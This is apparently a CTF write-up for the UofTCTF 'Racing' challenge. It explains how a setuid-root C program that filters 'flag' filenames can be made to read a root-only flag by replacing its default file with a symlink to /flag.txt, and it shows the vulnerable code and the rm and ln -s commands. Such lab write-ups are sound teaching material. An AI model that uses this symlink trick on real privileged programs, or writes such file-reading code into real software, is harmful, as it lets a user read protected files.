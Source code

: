 ```yaml
---
title: UofTCTF - Racing
published: 2025-01-14
description: 'This challenge is a misc chall on my first ctf ever ! '
image: ''
tags: [UofTCTF,]
category: 'misc'
draft: false 
lang: ''
---
```


# Intro


First of all, let's take a look at the challenge : 
<br/>
![](../../assets/Racing/Pasted%20image.png)

Nothing really interesting but they gave us a copy of the binary running on the machine.

When we connect to the machine, we can see a `flag.txt` that we can read. So, we can imagine that the challenge is to exploit the binary to read `flag.txt`.
Lets review the code : 

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main(int argc, char **argv)
{
    if (setuid(0) != 0)
    {
        perror("Error setting UID");
        return EXIT_FAILURE;
    }

    char *fn = "/home/user/permitted";
    char buffer[128];
    char f[128];
    FILE *fp;

    if (!access(fn, R_OK))
    {
        printf("Enter file to read: ");
        fgets(f, sizeof(f), stdin);
        f[strcspn(f, "\n")] = 0;

        if (strstr(f, "flag") != NULL)
        {
            printf("Can't read the 'flag' file.\n");
            return 1;
        }

        if (strlen(f) == 0)
        {
            fp = fopen(fn, "r");
        }
        else
        {
            fp = fopen(f, "r");
        }

        fread(buffer, sizeof(char), sizeof(buffer) - 1, fp);
        fclose(fp);
        printf("%s\n", buffer);
        return 0;
    }
    else
    {
        printf("Cannot read file.\n");
        return 1;
    }
}

```

I'm not a C expert but I understood that this code asks us for a file to read with `root permissions` : 

```c
//here, the program starts by upgrading the process privileges to root
if (setuid(0) != 0)
```

```c
printf("Enter file to read: ");
        fgets(f, sizeof(f), stdin);
        f[strcspn(f, "\n")] = 0;
```

But we can't read directly the flag file : 

```c
if (strstr(f, "flag") != NULL)
        {
            printf("Can't read the 'flag' file.\n");
            return 1;
        }
```

# Exploit

Something more interesting is the fact that if we don't specify any file, the code will read the file at `"/home/user/permitted"` : 

```c
char *fn = "/home/user/permitted";
```

```c
//here, f is is the result of the user input.
if (strlen(f) == 0)
        {
            fp = fopen(fn, "r");
        }
        else
        {
            fp = fopen(f, "r");
        }
```

So, my idea was to link the "permitted" file to flag.txt with a `symbolic link`, as we have root privileges by running the program (So we can read the flag file, which is owned and only readable by root).


```shell
User@containerssh-hblmc:/challenge$ rm /home/user/permitted
User@containerssh-hblmc:/challenge$ ln -s /flag.txt /home/user/permitted
```
:::important
If you're not familiar with symbolic links, think of them as a shortcut on the desktop: they are special files that point to another file. If we open this link, we can access the original file. If the original file is deleted or moved, the link no longer works.

:::

With this, if we don't specify any file, the program will try to read `/home/user/permitted`, but with the symbolic link, it will instead read the `flag.txt` file."

Lets run the code now : 

```shell
User@containerssh-hblmc:/challenge$ ./chall
Enter file to read : 
uoftctf{r4c3_c0nd1t10n5_4r3_c00l}
```

Bingo ! we have the flag ! 



